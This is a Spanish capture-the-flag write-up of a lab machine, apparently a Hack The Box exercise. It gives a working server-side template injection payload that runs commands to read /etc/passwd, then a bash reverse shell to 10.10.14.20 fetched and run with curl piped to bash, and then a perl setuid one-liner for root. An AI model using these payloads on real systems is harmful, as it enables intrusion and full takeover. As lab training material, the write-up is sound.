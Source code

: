 ![[N 2.png]]

De esta forma verificamos el primer **Payload** a través de **Burpsuite** ya que hay un bloqueo en la web que nos detecta que no es un email el que estamos colocando.

- ``{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@hotmail.com``

Cable aclarar que al colocar el Payload anterior en el Burpsuite se necesitan escapar (**``/``**) las comillas dobles quedando tal que así.

- *``{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@hotmail.com``*

![[N 3.png]]

De esta forma tendríamos un **SSTI**, de esta forma tendremos **RCE** por lo tanto podríamos colocar el comando que quisieramos.

Por lo tanto ahora me entablo una **Reverse Shell** creando un archivo *index.html* en mi máquina de atacante con el siguiente contenido.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.20/443 0>&1
```

Ahora montamos un servidor con *``python3 -m http.server 80``*

Luego desde el RCE que encontramos procedemos a realizar un *``{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl http://10.10.14.20/index.html | bash')\")()}}@hotmail.com``* el *``| bash``* ejecutará el archivo malicioso *index.html* con **bash** por lo tanto si nosotros nos encontramos en escucha por el *puerto 443* ganaremos acceso a la máquina.

## Escalada de Privilegios

Una vez ganamos acceso a la máquina reclamamos la flag del usuario y procedemos con la escalada hacia el usuario **root**.

----

Se detectó la capability *``setcapuid-ep``* en el binario */usr/bin/perl*, por lo tanto gracias a **GTFObins** encontramos una forma de explotar dicha capability.

Una vez intentamos realizar lo que nos indica el foro tal que así.

- **``./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'``**

Veremos que no funciona, pero si en vez de colocar *``/bin/sh``* colocamos **``whoami``** veremos que nos indica que somos **root**, por lo tanto hay algo que *nos está bloqueando el acceso a una consola interactiva* como usuario privilegiado. Cabe destacar que tampoco podremos listar la flag dentro del directorio *``/root``*, por lo tanto esto nos da a pensar que hay **una configuración extra colocada en el binario** para seleccionar que cosas se pueden realizar y que cosas no.

-----
